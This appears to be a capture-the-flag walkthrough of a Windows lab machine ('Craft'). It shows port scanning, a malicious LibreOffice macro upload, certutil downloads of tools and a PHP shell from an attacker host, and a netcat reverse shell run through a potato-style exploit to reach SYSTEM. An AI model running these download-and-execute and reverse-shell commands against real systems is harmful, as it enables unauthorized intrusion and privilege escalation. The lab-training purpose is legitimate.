










I began with a comprehensive TCP scan of all 65,535 ports. The results indicated that only port 80 is open.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-17 16:03 UTC
Nmap scan report for 192.168.164.169
Host is up (0.046s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 43.88 seconds
As a follow up, I performed a targeted service scan and a UDP scan of the top 10 ports to ensure no overlooked services were running.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 80 -Pn
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-17 16:05 UTC
Nmap scan report for 192.168.164.169
Host is up (0.045s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 11.89 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10 -Pn
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-17 16:08 UTC
Nmap scan report for 192.168.164.169
Host is up.
PORT STATE SERVICE
53/udp open|filtered domain
67/udp open|filtered dhcps
123/udp open|filtered ntp
135/udp open|filtered msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp open|filtered snmp
445/udp open|filtered microsoft-ds
631/udp open|filtered ipp
1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 3.23 seconds
Whenever I encounter an HTTP service, I run the http-enum Nmap script as part of my standard enumeration process. The script identified several interesting directories including /uploads
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80 -Pn
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-17 16:10 UTC
Nmap scan report for 192.168.164.169
Host is up (0.045s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-enum:
| /css/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'
| /icons/: Potentially interesting folder w/ directory listing
| /js/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'
|_ /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.48 (win64) openssl/1.1.1k php/8.0.7'
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.77 seconds
Upon browsing the website on port 80, I discovered a file upload functionality. In CTF scenarios, these are often vulnerable.


After testing with a random image, I found that the server only accepts .odt (OpenDocument Text) files.

I opened LibreOffice and created a macro containing a reverse shell payload. The macro was designed to trigger as soon as the file is opened by the server.

I uploaded the .odt file and this time it was accepted by the server.

After uploading wook_payload.odt , I navigated to the /uploads/ directory and confirmed the file was present.

thecybergeekShortly after, the macro was triggered. The server retrieved the binary and I successfully obtained a reverse shell as the user thecybergeek .

I was logged in as thecybergeek user.
C:\\Program Files\\LibreOffice\\program>whoami
whoami
craft\\thecybergeek
Found local.txt
C:\\Users\\thecybergeek\\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 5C30-DCD7
Directory of C:\\Users\\thecybergeek\\Desktop
07/13/2021 02:38 AM <DIR> .
07/13/2021 02:38 AM <DIR> ..
01/17/2026 08:02 AM 34 local.txt
1 File(s) 34 bytes
2 Dir(s) 10,691,629,056 bytes free
C:\\Users\\thecybergeek\\Desktop>type local.txt
type local.txt
d32...
To enumerate potential privilege escalation vectors, I ran Invoke-PrivescCheck .
PS C:\\Users\\Public> certutil -urlcache -split -f <http://192.168.45.236/PrivescCheck.ps1> PrivescCheck.ps1
certutil -urlcache -split -f <http://192.168.45.236/PrivescCheck.ps1> PrivescCheck.ps1
**** Online ****
000000 ...
03644a
CertUtil: -URLCache command completed successfully.
powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck"
The report indicated that the current user has write permissions in the C:\\xampp\\apache\\bin directory.

I further confirmed that I had write access to the webroot directory, C:\\xampp\\htdocs . This meant I could host a malicious PHP payload locally and trigger it externally.
C:\\xampp\\htdocs>echo 'a' > a.txt
echo 'a' > a.txt
C:\\xampp\\htdocs>dir
dir
Volume in drive C has no label.
Volume Serial Number is 5C30-DCD7
Directory of C:\\xampp\\htdocs
01/17/2026 10:53 AM <DIR> .
01/17/2026 10:53 AM <DIR> ..
01/17/2026 10:53 AM 6 a.txt
07/13/2021 02:18 AM <DIR> assets
07/13/2021 02:18 AM <DIR> css
07/07/2021 09:53 AM 9,635 index.php
07/13/2021 02:18 AM <DIR> js
07/07/2021 08:56 AM 835 upload.php
01/17/2026 10:30 AM <DIR> uploads
3 File(s) 10,476 bytes
6 Dir(s) 10,413,010,944 bytes free
I transferred Ivan-Sincek.php to the webroot directory.

C:\\xampp\\htdocs>certutil -urlcache -split -f <http://192.168.45.236/Ivan-Sincek.php>
certutil -urlcache -split -f <http://192.168.45.236/Ivan-Sincek.php>
**** Online ****
0000 ...
244f
CertUtil: -URLCache command completed successfully.
After triggering the script via the browser, I gained a new shell, this time as the apache user.

┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.164.169] 50237
SOCKET: Shell has connected! PID: 968
Microsoft Windows [Version 10.0.17763.2029]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\\xampp\\htdocs>whoami
craft\\apache
Checking the privileges of the apache user revealed that SeImpersonatePrivilege was enabled. This is a well-known vector for privilege escalation on Windows.
C:\\xampp\\htdocs>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeTcbPrivilege Act as part of the operating system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
I transferred gp.exe to the target machine.
C:\\Users\\Public>certutil -urlcache -split -f <http://192.168.45.236/gp.exe> gp.exe
**** Online ****
0000 ...
e000
CertUtil: -URLCache command completed successfully.
I executed a command through gp.exe to trigger another reverse shell using nc.exe with System privileges.
C:\\Users\\Public>.\\gp.exe -cmd "nc.exe 192.168.45.236 443 -e C:\\Windows\\System32\\cmd.exe"
systemThe exploit was successful, granting me a shell as NT AUTHORITY\\SYSTEM .
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.236] from (UNKNOWN) [192.168.164.169] 50245
Microsoft Windows [Version 10.0.17763.2029]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\\Windows\\system32>whoami
whoami
Found proof.txt
C:\\Users\\Administrator\\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 5C30-DCD7
Directory of C:\\Users\\Administrator\\Desktop
07/13/2021 02:38 AM <DIR> .
07/13/2021 02:38 AM <DIR> ..
01/17/2026 08:02 AM 34 proof.txt
1 File(s) 34 bytes
2 Dir(s) 10,412,666,880 bytes free
C:\\Users\\Administrator\\Desktop>type proof.txt
type proof.txt
6c6...